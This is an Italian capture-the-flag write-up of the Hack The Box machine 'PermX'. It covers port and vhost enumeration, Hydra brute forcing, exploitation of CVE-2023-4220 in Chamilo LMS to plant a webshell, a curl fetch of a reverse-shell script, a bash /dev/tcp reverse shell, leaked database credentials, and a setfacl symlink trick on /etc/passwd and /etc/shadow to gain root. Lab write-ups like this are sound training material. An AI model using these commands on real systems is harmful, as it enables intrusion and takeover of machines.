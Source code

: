 ```table-of-contents
title: 
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 0 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
# Scan

Eseguiamo il comando `nmap` per vedere quali porte aperte abbiamo sulla macchina

`nmap -sC -sV 10.10.11.23`

troviamo le porte 22 80 aperte

# Enumerazione

Navighiamo sulla pagina web, e ci troviamo davanti una pagina con varie sezioni
Lanciamo gobuster con il comando
`gobuster dir -u "http://permx.htb" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`

Per vedere quali sottodirectory utili abbiamo.

Non troviamo nulla di interessante, quindi passiamo all'enumerazione dei `vhost` con `FFUZ`, usando il comando :
`ffuf -u http://permx.htb -H "Host:FUZZ.permx.htb" -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt -fw 18` 

Questo comando mi ritorna due vhost interessanti, ovvero `lms` e `www`
# Vhost LMS

Una volta aperto il sito web `http://lms.permx.htb` ci troviamo davanti a una pagina di login

![[photo_3_2024-09-10_13-07-00 1.jpg|center]]

Proviamo subito ad effettuare un'attacco `SQL Injection`, con scarsi risultati

Proviamo quindi a fare bruteforce tramite il tool `Hydra`, con il comando 
`hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt lms.permx.htb http-post-form "/index.php:username=^USER^&password=^PASS^:loginFailed=1"`

Ma non ci ritorna nulla

A questo punto provo a fare enumerazione con gobuster, e mi trova due sottodirectory interessanti, ovvero app e documentation

Nella cartella `documentation` troviamo la documentazione relativa a Chamilo, che ci dice quale versione sta attualmente girando sul sistema

A questo punto,dato che hydra non funziona, sql injection non funziona e gobuster non trova nulla di interressante, cerchiamo online se esiste un exploit relativo a Chamelio.

Troviamo qualcosa di molto interessante, ovvero la vulnerabilità `CVE-2023-4220`, che si può utilizzare se la versione è $\leq 1.11.24$.

La nostra versione la abbiamo trovata in documentation, ed è la 1.11, quindi possiamo lanciare l'attacco tramite CVE.

# CVE Exploit

Cercando online troviamo questa repository di github che ci permette di eseguire l'exploit -> [Repo Exploit](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

![[Screenshot_2024-09-10_12_33_53.png|center]]

Dalla foto vediamo anche i dettagli della CVE in questione

Seguiamo i passagi trovati su github e lanciamo lo script che ci va a creare una webshell, che possiamo usare per caricare la nostra reverse shell

La webshell viene creata al seguente indirizzo
`http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php?cmd=<command>`

Al posto di command lanciamo il comando che a noi interessa, ovvero 
`curl http://<mio_ip>:<porta>/shell.sh -o shell.sh`, in modo da caricare il file shell.sh sul sito

il file shell.sh contiene le seguenti righe di codice

```shell
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORTA> 0>&1'
```

Una volta caricata la nostra shell.sh, prendiamo la shell tramite l'utilizzo di netcat e otteniamo l'accesso con l'utente www-data.

# User WWW-DATA & PrivEsc

A questo punto, carichiamo il file `linpeas.sh` e lo eseguiamo

Linpeas trova una sequenza di codice PHP, dove vengono specificati utente e password per l'accesso al dabatase, però non sappaimo dove si trova il file completo

![[photo_2_2024-09-10_13-07-00.jpg|center]]

Per trovare il file lanciamo il comando 
`find /var/www/chamilo/ -name configuration* 2>/dev/null` 

e troviamo due file:
`/var/www/chamilo/app/config/configuration.php
`/var/www/chamilo/plugin/sepe/src/configuration.php`

Nel primo file troviamo le configurazioni 
`db_user = "chamilo" e db_pass = "03F6lY3uXAP2bkW8"`

Nel secondo nulla di interessante

A questo punto proviamo ad accedere al DB usando queste credenziali e ci troviamo davanti la seguente situazione

![[photo_4_2024-09-10_13-07-00.jpg|center]]

![[photo_1_2024-09-10_13-07-00.jpg|center]]

Otteniamo l'hash delle password di due utenti, `Admin` e `Anon`, ma nessuno dei due utenti serve realmente.
Infatti i due hash non possono essere convertiti.

A questo punto, ricordando la porta 22 aperta sulla macchina, proviamo ad accedere tramite ssh tramite queste credenziali.

Proviamo l'user chamilo, ma non ci fa entrare, a questo punto proviamo l'user `mtz`, che avevamo trovato in precedenza dalla cartella home

## User MTZ

Ora siamo l'utente mtz, e usando il comando `sudo -l` notiamo che possiamo lanciare il file `/opt/acl.sh` con i permessi di root. (Cosa poi confermata rilanciando linpeas.sh)

Il file usa il comando `setfacl` per modficare la `access control list` e modificare quindi i permessi di un dato file

A questo punto lo possiamo usare per modificare i file `/etc/passwd` e `/etc/shadow` in modo da creare un nostro utente root custom

Per fare ciò bisogna prima di tutto creare del link simbolici ai due file, perchè se passati cosi al file ac.sh ci verrà restituito l'errore Acces Denied.

I comandi sono : 
```shell
ln -s /etc/passwd /home/mtz/passwd_link
ln -s /etc/shadow /home/mtz/shadow_link
```

Fatto questo eseguiamo il file acl.sh, passando in input i due link simbolici, in questo modo avremo libero accesso in scrittura ai due file passwd e shadow.

A questo punto creaimo il nostro nuovo utente root custom (es. mia_root), e una volta caricate le voci nei due file potremmo entrare come root usando il comando 

`su mia_root`

Fatto ciò saremo utente root, e potremmo prendere la root_flag



